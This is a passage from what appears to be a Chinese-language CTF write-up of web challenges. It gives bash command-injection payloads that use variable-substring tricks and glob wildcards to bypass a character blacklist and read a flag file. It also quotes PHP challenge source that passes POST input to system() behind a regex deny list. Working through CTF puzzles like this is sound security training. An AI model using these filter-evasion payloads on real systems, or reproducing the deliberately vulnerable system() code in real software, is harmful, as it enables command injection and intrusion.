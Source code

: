 这题把上题的HOME也ban了，但是第二种方法还能出，而且长度也符合

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```

![image-20250118212249002](assets/image-20250118212249002.png)



或

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
```



#### web121

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```
